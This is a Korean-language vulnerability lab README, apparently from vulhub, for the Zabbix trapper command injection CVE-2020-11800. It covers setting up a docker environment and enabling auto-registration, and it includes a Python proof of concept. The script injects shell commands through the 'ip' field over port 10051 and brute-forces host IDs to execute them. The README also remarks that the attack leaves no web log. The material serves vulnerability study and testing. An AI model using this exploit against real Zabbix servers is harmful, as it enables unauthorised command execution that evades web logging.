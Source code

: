 # Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.

![](0.png)
로그인하려면 ID: admin, PW: zabbix 를 입력하세요.

![](1.png)
Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.

![](2.png)
poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.

![](3.png)
이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.

![](4.png)
성공적으로 실행된 명령은 콘솔에도 기록됩니다.

![](5.png)
해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
